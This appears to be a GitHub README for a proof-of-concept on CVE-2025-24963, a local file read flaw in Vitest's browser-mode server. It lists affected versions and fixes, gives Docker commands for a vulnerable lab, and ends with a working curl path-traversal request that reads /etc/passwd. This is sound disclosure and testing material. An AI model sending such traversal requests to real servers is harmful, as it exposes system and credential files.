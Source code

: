# CVE-2025-24963 - Vitest Browser Mode - Local File Read

​CVE-2025-24963 is a medium-severity vulnerability (CVSS 3.1 score: 5.9) affecting the `@vitest/browser` package, a component of the Vitest testing framework powered by Vite. This vulnerability arises from improper input validation in the `__screenshot-error` handler of the browser mode HTTP server. When the server is exposed to the network using the configuration option browser.api.host: true, an attacker can send specially crafted requests to access arbitrary files on the server's file system, potentially leading to unauthorized disclosure of sensitive information.

## Affected Versions
The vulnerability affects the following versions of `@vitest/browser`:​

- 2.0.4 to 2.1.8
- 3.0.0 to 3.0.3​

## Mitigation
This issue has been addressed in versions 2.1.9 and 3.0.4. Users are strongly advised to upgrade to these or later versions to mitigate the vulnerability.​

## Workaround
If immediate upgrading is not feasible, a temporary workaround is to avoid exposing the browser mode server to the network by not setting `browser.api.host: true` in your configuration. This will prevent external access to the vulnerable handler.

## Prepare Environment

```
git clone https://github.com/0xdeviner/CVE-2025-24963.git
cd CVE-2025-24963/vitest-vuln-demo
docker build -t vitest-cve-2025-24963 .
docker run -itd --name vitest-cve -p 63315:63315 vitest-cve-2025-24963
```

> Note: The port Vitest uses is dynamic (e.g., 63315). You may want to monitor the logs and adjust your -p flag accordingly.

## Exploit

```bash
curl "http://<IP>:63315/__screenshot-error?file=../../../../../../etc/passwd"
```
